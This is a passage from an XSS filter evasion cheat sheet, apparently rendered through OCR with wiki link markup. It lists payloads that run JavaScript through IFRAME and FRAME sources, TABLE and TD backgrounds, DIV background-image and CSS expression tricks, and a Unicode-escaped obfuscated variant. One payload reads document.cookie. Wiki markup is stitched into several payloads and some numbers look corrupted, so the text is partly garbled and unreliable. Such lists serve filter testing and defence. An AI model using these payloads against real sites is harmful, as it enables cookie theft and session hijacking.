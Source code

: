 (Submitted by Moritz Naumann)
#### I#### [[_content/dictionary#F|FRAME]]¶
If iFrames are allowed there are a lot of other [[_content/dictionary#X|XSS]] problems as well:
<[[_content/dictionary#I|IFRAME]] [[_content/dictionary#S|SRC]]="javascript:alert('XSS');"></IFRAME>

#### [[_content/dictionary#I|IFRAME]] Event Based¶
IFrames and most other elements can use event based mayhem like the following:
<IFRAME [[_content/dictionary#S|SRC]]=# onmouseover="alert(document.cookie)"></IFRAME>

(Submitted by: David Cross)
[[_content/dictionary#F|FRAME]]¶
Frames have the same sorts of [[_content/dictionary#X|XSS]] problems as iFrames
<[[_content/dictionary#F|FRAMESET]]><FRAME [[_content/dictionary#S|SRC]]="javascript:alert('XSS');"></FRAMESET>

#### [[_content/dictionary#T|TABLE]]¶
<TABLE [[_content/dictionary#B|BACKGROUND]]="javascript:alert('[[_content/dictionary#X|XSS]]')">

##### [[_content/dictionary#T|TD]]¶
Just like above, TD's are vulnerable to BACKGROUNDs containing [[_content/dictionary#J|JavaScript]] [[_content/dictionary#X|XSS]] vectors:
<[[_content/dictionary#T|TABLE]]><TD [[_content/dictionary#B|BACKGROUND]]="javascript:alert('XSS')">

#### [[_content/dictionary#D|DIV]]¶
##### [[_content/dictionary#D|DIV]] Background-image¶
<DIV [[_content/dictionary#S|STYLE]]="background-image: url(javascript:alert('[[_content/dictionary#X|XSS]]'))">

##### [[_content/dictionary#D|DIV]] Background-image with Unicode [[_content/dictionary#X|XSS]] Exploit¶
This has been modified slightly to obfuscate the [[_content/dictionary#U|URL]] parameter:
<DIV [[_content/dictionary#S|STYLE]]="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">

(Original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail)
##### [[_content/dictionary#D|DIV]] Background-image Plus Extra Characters¶
RSnake built a quick [[_content/dictionary#X|XSS]] fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the [[_content/dictionary#J|JavaScript]] directive in IE. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):
<DIV [[_content/dictionary#S|STYLE]]="background-image: url(javascript:alert('XSS'))">

##### [[_content/dictionary#D|DIV]] Expression¶
A variant of this attack was effective against a real-world [[_content/dictionary#X|XSS]] filter by using a newline between the colon and expression:
<DIV [[_content/dictionary#S|STYLE]]="width: expression(alert('XSS'));">

#### Downlevel-Hidden Block¶
Only works on the IE rendering engine - Trident. Some websites consider anything inside a comment block to be safe and therefore does not need to be removed, which allows our [[_content/dictionary#X|XSS]] vector to exist. Or the system might try to add comment tags around something in a vain attempt to render it harmless. As we can see, that probably wouldn't do the job:
